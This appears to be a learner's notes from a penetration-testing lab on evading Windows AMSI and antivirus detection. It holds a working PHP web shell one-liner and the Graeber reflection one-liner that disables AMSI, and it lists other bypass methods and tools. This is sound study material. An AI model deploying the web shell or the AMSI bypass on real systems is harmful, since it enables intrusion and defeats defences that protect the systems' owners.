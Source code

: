 
Let's 1st try what we have learnt in wreath network and if it doesn't work will learn what they are teaching us.

Let's try this obfuscation
https://www.gaijin.at/en/tools/php-obfuscator
```
<?php system($_GET[base64_decode('Y21k')]);?>
```


As i was going through this Php obfuscation won't work so will have to learn something on the lines of either updating amsi.dll or obfuscate it aka AMSIception.



<hr>



There are a large number of bypasses for AMSI available, a majority written in PowerShell and C#. Find a list of common bypasses below.  

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

- Patching amsi.dll
- Amsi ScanBuffer patch
- Forcing errors
- Matt Graeber's Reflection, [](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)[https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
- PowerShell downgrade



<hr>


Will Target `Matt Graeber` reflection method as well as patching `amsi.dll`

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

##  It is helpful to think of obfuscation as an art rather than a technique.


To Begin with Obfuscation will focus on manual obfuscation more as it's more reliable compared to automated obfuscators.

To aid in our obfuscation efforts, we will use the AMSITrigger script, [https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger), written by RythmStick

